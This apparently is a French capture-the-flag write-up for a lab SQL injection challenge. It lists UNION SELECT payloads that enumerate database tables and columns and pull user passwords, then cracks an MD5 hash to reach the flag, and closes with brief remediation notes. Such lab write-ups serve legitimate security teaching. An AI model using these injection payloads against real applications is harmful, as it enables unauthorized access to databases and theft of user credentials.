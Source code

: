 # Recherches

1. Envoie du formulaire vide retourne une erreur MySQL
2. Ecrire un exploit afin de lister toutes les tables presentes
   ```
   1 UNION SELECT table_schema, table_name FROM information_schema.tables
   ```
3. Lister les colones
   ```
   1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns
   ```
4. Afficher le mot de passe des utilisateurs
   ```
   1 UNION SELECT countersign, Commentaire FROM users
   ```
5. Le commentaire indique quel utilisateur correspond au flag
6. `md5(5ff9d0165b4f92b14994e5c685cdce28) == "FortyTwo"`
7. `FortyTwo` => `fortytwo`
8. `sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

> FLAG: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Explications

Les failles sql sont courrantes dans les applications qui ne securisent pas leurs entrees.

# Corrections

Pour eviter les failles sql plusieurs choses sont necessaires:
     - mises a jours frequentes de la db SQL
     - sanitize les entrees utilisateurs

